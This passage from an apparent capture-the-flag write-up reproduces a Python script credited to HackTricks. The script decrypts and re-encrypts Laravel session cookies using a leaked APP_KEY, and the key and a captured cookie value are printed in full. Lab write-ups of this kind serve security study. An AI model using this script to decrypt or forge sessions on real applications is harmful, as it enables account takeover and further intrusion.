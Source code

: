 We can decrypt the `cybermonday_session` JWT token using this script from Hacktricks:

{% code overflow="wrap" %}
```python
import os
import json
import hashlib
import sys
import hmac
import base64
import string
import requests
from Crypto.Cipher import AES
from phpserialize import loads, dumps

#https://gist.github.com/bluetechy/5580fab27510906711a2775f3c4f5ce3

def mcrypt_decrypt(value, iv):
    global key
    AES.key_size = [len(key)]
    crypt_object = AES.new(key=key, mode=AES.MODE_CBC, IV=iv)
    return crypt_object.decrypt(value)


def mcrypt_encrypt(value, iv):
    global key
    AES.key_size = [len(key)]
    crypt_object = AES.new(key=key, mode=AES.MODE_CBC, IV=iv)
    return crypt_object.encrypt(value)


def decrypt(bstring):
    global key
    dic = json.loads(base64.b64decode(bstring).decode())
    mac = dic['mac']
    value = bytes(dic['value'], 'utf-8')
    iv = bytes(dic['iv'], 'utf-8')
    if mac == hmac.new(key, iv+value, hashlib.sha256).hexdigest():
        return mcrypt_decrypt(base64.b64decode(value), base64.b64decode(iv))
        #return loads(mcrypt_decrypt(base64.b64decode(value), base64.b64decode(iv))).decode()
    return ''


def encrypt(string):
    global key
    iv = os.urandom(16)
    #string = dumps(string)
    padding = 16 - len(string) % 16
    string += bytes(chr(padding) * padding, 'utf-8')
    value = base64.b64encode(mcrypt_encrypt(string, iv))
    iv = base64.b64encode(iv)
    mac = hmac.new(key, iv+value, hashlib.sha256).hexdigest()
    dic = {'iv': iv.decode(), 'value': value.decode(), 'mac': mac}
    return base64.b64encode(bytes(json.dumps(dic), 'utf-8'))

app_key ='EX3zUxJkzEAY2xM4pbOfYMJus+bjx6V25Wnas+rFMzA='
key = base64.b64decode(app_key)
print(decrypt('eyJpdiI6InFReUpScXptMG4xcnRzT0hWKzF1d0E9PSIsInZhbHVlIjoiZ3l1NjgvTGVhZnRIK05RRnNOM3N2ZWVLOTFkekhrSDNOTnl1SFdPNTQvcmhlbUhQN1FyMFBHT29ncEVlTWlFeG00WFN2WlI2cU1MU1RkNXBpZm1rL3lPK21RUTZRZlBNM2hjYzRKN01jNzFNb3pLNldZdGNMcTYrTEFtMlFXYnQiLCJtYWMiOiI0NWU5YzFlNTQyZTIxYWE1NjFiODE0ODM3YWZkMGY3YTg5MGQwNzQyZWU0MDU0MjRhNzUzYzVjYmIxMmEyMzJiIiwidGFnIjoiIn0='))
```
{% endcode %}
